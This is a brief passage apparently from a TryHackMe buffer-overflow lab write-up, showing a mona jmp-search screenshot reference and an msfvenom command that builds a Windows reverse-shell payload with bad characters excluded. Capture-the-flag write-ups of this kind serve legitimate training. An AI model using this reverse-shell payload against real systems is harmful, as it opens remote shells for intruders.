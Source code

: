 ![Mona jmp](/images/THM/buffprep/of6/Captura8.PNG)

##### Generating Payload

It's time to generate the payload.

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<OUR IP> LPORT=<Port that we want> EXITFUNC=thread -b "\x00,\x08,\x2c,\xad" -f c
```
